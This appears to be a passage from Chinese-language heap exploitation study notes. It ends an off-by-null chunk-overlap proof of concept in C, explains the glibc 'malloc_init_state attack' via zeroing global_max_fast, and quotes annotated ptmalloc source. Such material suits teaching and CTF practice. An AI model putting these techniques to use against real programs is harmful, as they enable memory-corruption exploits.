 ```c
    c1=malloc(0x410);
    

    free(padding);
    padding=malloc(0x108);
    ((long*)padding)[0x100/8]=0x550;   // h0->prevsize   
    ((char*)padding)[0x108]='\x00';   // h0->size  off by null 
    free(h1);  //merge h1 with c0


    void* split=malloc(0x540);
    printf("split heap address %p \n",split);
    printf("c0 heap address %p \n",c0);
    printf("padding heap address %p \n",padding);
}
```

# malloc_init_state attack 

malloc_consolidate 会根据 global_max_fast 是否为 0 来判断 ptmalloc 是否已经初始化，因此如果能通过任意地址写将 global_max_fast 置 0 然后触发 malloc_consolidate 就可以调用 malloc_init_state 。

```c
static void malloc_consolidate(mstate av){
// malloc_consolidate逻辑
if (get_max_fast () != 0) {
    //global_max_fast不为0,表示ptmalloc已经初始化
    //清理和合并 fastbin，最后都放入unsortedbin
} else {
    //如果global_max_fast为0
    malloc_init_state(av);
    check_malloc_state(av);
    //非debug模式下该宏定义为空
}

}
```
```c
 /* Base of the topmost chunk -- not otherwise kept in a bin */
  mchunkptr top;

  /* The remainder from the most recent split of a small request */
  mchunkptr last_remainder;

  /* Normal bins packed as described above */
  mchunkptr bins[NBINS * 2 - 2];
```
在 malloc_init_state 中会将 top chunk 指针指向 unsorted bin
```c
static void malloc_init_state (mstate av) {
    int i;
    mbinptr bin;
    for (i = 1; i < NBINS; ++i) {
        bin = bin_at (av, i);
        bin->fd = bin->bk = bin;
        //遍历所有的bins,初始化每个bin的空闲链表为空,即将bin的fb和bk都指向bin本身
    }
#if MORECORE_CONTIGUOUS
    if (av != &main_arena)
#endif
        set_noncontiguous (av);
        //对于非主分配区,需要设置为分配非连续虚拟地址空间
    if (av == &main_arena)
        set_max_fast (DEFAULT_MXFAST);
```
